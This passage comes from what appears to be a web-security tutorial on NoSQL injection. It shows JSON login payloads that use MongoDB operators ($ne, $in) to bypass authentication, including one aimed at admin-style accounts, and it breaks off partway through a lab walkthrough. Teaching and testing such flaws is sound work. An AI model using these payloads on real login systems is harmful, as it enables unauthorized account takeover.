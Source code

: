 If the `$ne` operator is applied, this queries all users where the username is not equal to `invalid`.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload:

```json
{
    "username":{
        "$ne": "invalid"
    },
    "password":{
        "$ne": "invalid"
    }
}
```

This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example:

```json
{
    "username":{
        "$in":[
            "admin",
            "administrator",
            "superadmin"
        ]
    },
    "password":{
        "$ne": ""
    }
}
```

Now, let's try to login as user `wiener` but with an incorrect password:
